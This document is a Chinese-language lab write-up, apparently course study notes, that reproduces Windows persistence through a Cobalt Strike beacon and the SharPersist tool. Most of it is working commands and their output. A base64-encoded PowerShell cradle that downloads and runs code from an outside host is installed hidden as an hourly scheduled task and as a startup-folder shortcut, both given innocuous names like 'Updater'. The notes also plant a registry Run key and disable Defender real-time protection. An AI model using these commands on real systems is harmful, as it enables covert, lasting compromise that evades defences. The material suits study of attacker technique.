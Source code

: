 使用工具[SharPersist.exe](https://github.com/mandiant/SharPersist/releases)

教材上这个实验用到的工具放在：```C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe```

我本地复现这个实验，工具放在kali的```/root/CobaltStrike/tools/```路径，因为我是在kali开启的客户端

# 定时任务

1. 把执行的payload转成base64

windows：
```
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://192.168.1.5:80/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==
```
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658552371913.jpg)

kali:
```
┌──(root㉿kali)-[~]
└─# str='IEX ((new-object net.webclient).downloadstring("http://192.168.1.5:80/a"))'
                                                                                                                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==                                                                          
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658552409755.png)


2. 创建定时任务


```
beacon> execute-assembly tools/SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
[*] Tasked beacon to run .NET program: SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
[+] host called home, sent: 342717 bytes
[+] received output:

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly


[+] SUCCESS: Scheduled task added

```

参数
```
-t是所需的持久性技术。
-c是要执行的命令。
-a是该命令的任何参数。
-n是任务的名称。
-m是添加任务（也可以remove，check和list）。
-o是任务频率。
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658552739085.png)


在win上,打开```Task Scheduler ```，找到定时任务```Updater```，点击run可以马上执行这个任务

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658553107506.png)

收到beacon
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658553273601.png)


# 启动文件夹

**注意，复现开机启动的权限维持，需要关闭靶机上的实时防护，否则不会返回beacon**

win+r打开注册表，输入```gpedit.msc```,按图操作，彻底关闭实时防护

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658555294635.png)

创建一个开机启动任务
```
beacon> execute-assembly tools/SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add
[*] Tasked beacon to run .NET program: SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add
[+] host called home, sent: 342719 bytes
[+] received output:

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==
[*] INFO: File Name: UserEnvSetup


[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
[*] INFO: SHA256 Hash of LNK file: 4EF72582549967B29F66CF83BFA65F3D36EBFA8D2E0F3AB5CFE9ADFF51DC8011

```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658553789330.png)

此时在```C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup```路径下会生成一个文件

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658553996815.png)

重启windows主机，拿到baecon

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658554807580.png)


# 注册表自动运行

1. 生成
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658573005655.png)

2. 上传到靶机
```
upload /root/payloads/updater.exe
```

3. 写进注册表自动运行
execute-assembly tools/SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658572707486.jpg)

4. 重启靶机验证
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658573188786.png)